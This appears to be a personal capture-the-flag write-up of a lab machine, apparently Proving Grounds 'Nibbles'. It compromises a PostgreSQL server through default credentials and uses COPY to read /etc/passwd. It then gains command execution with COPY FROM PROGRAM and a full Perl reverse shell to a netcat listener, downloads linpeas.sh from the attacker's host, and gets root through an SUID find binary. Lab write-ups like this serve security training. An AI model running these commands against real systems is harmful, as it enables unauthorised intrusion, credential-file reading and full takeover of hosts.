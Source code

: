 Nmap scan revealed postgresql so I logged in from the attack machine using the default postgres creds:
![18ea7b229d658aefc3e2cc848dd6addb.png](../../../../_resources/18ea7b229d658aefc3e2cc848dd6addb.png)

CREATE TEMP TABLE yeet (INPUT TEXT);
COPY yeet from '/etc/passwd';
SELECT * FROM yeet;
![1adba8881fd021f0112c16003432ef71.png](../../../../_resources/1adba8881fd021f0112c16003432ef71.png)

Use strategy from above to read local.txt:
![8315e7bd24502c9d1de26e614f451698.png](../../../../_resources/8315e7bd24502c9d1de26e614f451698.png)

Use similar strategy to get shell on machine:
set up netcat listener on attackbox (this machine will only catch a listener on port 80 as the postgresql is expecting it there)
`nc -nlvp 80`

Test rce with a simple command:
![8dd624f181f6d18060f6717d16c737a4.png](../../../../_resources/8dd624f181f6d18060f6717d16c737a4.png)

Excellent. I tried to use a reverse python command with sockets, but that didn't work (or I just didn't know where to put quotes and such)

Also found perl on the system and found this guide: https://www.trenchesofit.com/2021/02/01/offensive-security-proving-grounds-nibbles-write-up-no-metasploit/ (couldn't copy and paste so I ended up viewing the page source, copying it, and then manually comparing to what was posted on the site that I couldn't copy)

After having already set up the table previously when testing with the 'which python' command, all that needed to be run was:
`COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.188:80");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';`

And then I also ran this to trigger the shell connect:
`SELECT * FROM cmd_exec;`

Resulting in a netcat shell being returned to my listener set up on port 80:
![11700346868d8c6e9052c8ba07b5ed38.png](../../../../_resources/11700346868d8c6e9052c8ba07b5ed38.png)

Use python to make shell better:
`python -c 'import pty;pty.spawn("/bin/bash")'`

Get linpeas.sh on the device:
(From attack box in directory with linpeas.sh)
`python3 -m http.server 80`
(From target)
`wget http://[attacker_ip]/linpeas.sh`

It found an SUID set on the find binary. Testing with:
`find . -exec whoami \;`

It shows root over and over again. Now time to figure out how to use it to get a root shell: https://gtfobins.github.io/gtfobins/find/

![29f92610a18a09d29737de78bc5a1497.png](../../../../_resources/29f92610a18a09d29737de78bc5a1497.png)
`find . -exec /bin/sh -p \; -quit`

Got root shell finally. Grabbed proof.txt from /root/ 
